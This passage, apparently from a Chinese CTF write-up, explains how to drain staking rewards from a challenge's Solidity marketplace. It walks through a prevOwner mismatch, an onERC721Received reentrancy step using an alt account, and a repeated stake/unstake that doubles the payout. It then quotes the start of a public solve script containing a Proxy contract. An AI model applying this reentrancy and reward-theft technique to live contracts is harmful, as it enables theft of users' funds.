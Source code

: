 但是在Marketplace合约中，我们发现`Unstake`函数在`safeTransferFrom`后会进行`swapCUSDCforUSDC`操作，而传入的参数`recipient`（`prevOwner`）和函数中的`_iLockToken.ownerOf(tokenId)`（NFT实际持有者）可能会不一致，最后导致本应该发放给NFT持有者的奖励被发放给`prevOwner`，因此我们可以从这里开始下手

同时我们还发现Token中对`beforeTokenTransfer`的实现存在问题：如果`from`或者`to`为市场本身的时候，则不会修改`prevOwner`，因此假如我们已经让`prevOwner`获了一次利，此时我们直接再质押并取消后，就能产生双倍利润；除此之外，只有`beforeTokenTransfer`会修改`prevOwner`，因此我们需要首先进行一次带`onERC721Received`的重入操作，在第一次质押并取消的时候触发重入，让`prevOwner`修改为我们一个Alt Account，此时我们的`prevOwner`在取消质押的时候就能设置一个虚空的`_cUSDCInterest`后获取质押奖励；第2次则不需要重入，直接质押并取消即可再次获利，从而翻倍奖励

这里附上榜一大哥们公开的解题脚本，我到现在还有点懵圈所以就没有自己写QAQ

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import "src/interfaces/ILockMarketplace.sol";
import "src/interfaces/ILockToken.sol";
import "src/interfaces/ICERC20.sol";
import "src/interfaces/IComptroller.sol";

interface IChallenge {
    function USDC() external returns (IERC20);
    function CUSDC() external returns (IERC20);
    function COMPTROLLER() external returns (IComptroller);
    function LOCK_MARKETPLACE() external returns (ILockMarketplace);
    function LOCK_TOKEN() external returns (ILockToken);
}

contract Proxy {
    uint256 mode;
    IChallenge public chal;
    ILockMarketplace public m;
    ILockToken public t;
    IERC20 usdc;
    address a;
    address b;
    address c;
    uint160 i;
    uint256 lastTokenId;
    
    constructor(IChallenge _chal) {
        chal = _chal;
        m = chal.LOCK_MARKETPLACE();
        t = chal.LOCK_TOKEN();
        usdc = chal.USDC();
    }

    function mintWithUSDC(address to, uint256 usdcAmount) external returns (uint256) {
        usdc.approve(address(m), usdcAmount);
        return m.mintWithUSDC(to, usdcAmount);
    }

    function stake(uint256 tokenId, uint256 usdcAmount) external {
        t.approve(address(m), tokenId);
        return m.stake(tokenId, usdcAmount);
    }

    function unStake(address to, uint256 tokenId) external {
        return m.unStake(to, tokenId);
    }

    function transferFrom(address from, address to, uint256 tokenId) external {
        t.transferFrom(from, to, tokenId);
    }
```